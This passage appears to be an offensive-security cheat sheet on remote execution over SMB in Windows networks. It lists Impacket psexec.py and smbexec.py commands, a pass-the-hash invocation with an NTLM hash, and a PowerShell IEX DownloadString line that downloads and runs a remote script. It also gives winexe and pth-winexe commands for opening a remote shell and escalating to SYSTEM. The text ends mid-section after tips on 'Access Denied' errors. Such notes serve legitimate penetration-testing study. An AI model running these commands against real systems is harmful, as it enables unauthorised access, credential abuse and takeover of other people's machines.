 **Impacket**

```
psexec.py hackdomain/pelle@192.168.66.88
psexec.py Administrator@192.168.66.88
psexec.py -hashes 00000000000000000000000000000000:88e4d9fabaecf3dec18dd80905521b29 user@192.168.66.88
smbexec.py evilcorp.local/philip@192.168.77.12
```


**Metasploit PsExec_psh**

The metasploti-module `exploit/windows/smb/psexec_psh` creates a service, but instead of uploading an executable to disk the service is started with a powershell command, something like this:

```
powershell.exe IEX (new-object Net.WebClient).DownloadString("http://...script.ps1"); invoke-thescript
```

**Metasploit psexec**

Otherwise you can also use metasploit exploit `windows/smb/psexec` but it can't hand ÅÄÖ.


**SysInternals / PsExec.exe**

```
psexec.exe \\192.11.11.11 -u Administratör cmd.exe
```

**WinEXE / PTH-WinEXE**

`winexe` is a linux-port of Sysinternals PsExec. `pth-winexe` just adds the pass-the-hash function.
Can be accessed from kali repo with: `sudo apt-get install passing-the-hash`

```
winexe --uninstall --user evilcorp.local/philip //192.168.77.12 "cmd.exe"
pth-winexe --uninstall--user evilcorp.local/philip //192.168.77.12 "cmd.exe"

# To escalate to system
winexe --uninstall --system --user evilcorp.local/philip //192.168.77.12 "cmd.exe"
pth-winexe --uninstall --system --user evilcorp.local/philip //192.168.77.12 "cmd.exe"
```

### Why is it not working?

**Access Denied**

If you try to use `PsExec`, but when you do you get the response `Access Denied`, the most likely scenario is that the following registry key is set:

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

This blocks local admin users with the `User Account Control (UAC)` security mechanism.

**Share is not writable**
